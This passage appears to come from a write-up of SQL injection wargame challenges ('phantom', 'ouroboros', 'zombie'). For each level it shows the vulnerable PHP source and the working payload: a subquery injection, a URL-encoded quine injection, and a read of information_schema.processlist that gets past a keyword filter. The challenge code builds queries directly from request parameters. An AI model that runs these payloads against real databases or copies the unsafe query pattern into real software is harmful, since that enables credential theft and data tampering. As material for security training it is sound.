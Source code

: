```php
  if(($result['email']) && ($result['email'] === $_GET['email'])){ mysqli_query($db,"delete from prob_phantom where no != 1"); solve("phantom"); }
  highlight_file(__FILE__);
?>
```

payload: '),(0,'ip',(select email from prob\_phantom as cc where no = 1 ))%23

## OUROBOROS([Quines](https://blog.p6.is/quine-sql-injection/))

```php
<?php
  include "./config.php";
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\.|rollup|join|@/i', $_GET['pw'])) exit("No Hack ~_~");
  $query = "select pw from prob_ouroboros where pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if($result['pw']) echo "<h2>Pw : {$result[pw]}</h2>";
  if(($result['pw']) && ($result['pw'] === $_GET['pw'])) solve("ouroboros");
  highlight_file(__FILE__);
?>
```

payload: 1%27%20union%20SELECT%20REPLACE%28REPLACE%28%271%22%20union%20SELECT%20REPLACE%28REPLACE%28%22%24%22%2CCHAR%2834%29%2CCHAR%2839%29%29%2CCHAR%2836%29%2C%22%24%22%29%20AS%20Quine%23%27%2CCHAR%2834%29%2CCHAR%2839%29%29%2CCHAR%2836%29%2C%271%22%20union%20SELECT%20REPLACE%28REPLACE%28%22%24%22%2CCHAR%2834%29%2CCHAR%2839%29%29%2CCHAR%2836%29%2C%22%24%22%29%20AS%20Quine%23%27%29%20AS%20Quine%23

## Zombie(information\_schema)

```php
<?php
  include "./config.php";
  login_chk();
  $db = dbconnect("zombie");
  if(preg_match('/rollup|join|ace|@/i', $_GET['pw'])) exit("No Hack ~_~");
  $query = "select pw from prob_zombie where pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if($result['pw']) echo "<h2>Pw : {$result[pw]}</h2>";
  if(($result['pw']) && ($result['pw'] === $_GET['pw'])) solve("zombie");
  highlight_file(__FILE__);
?>
```

Filter replace

\=> payload : ' union select (select mid(info,38,84) from information\_schema.processlist limit 1)%23
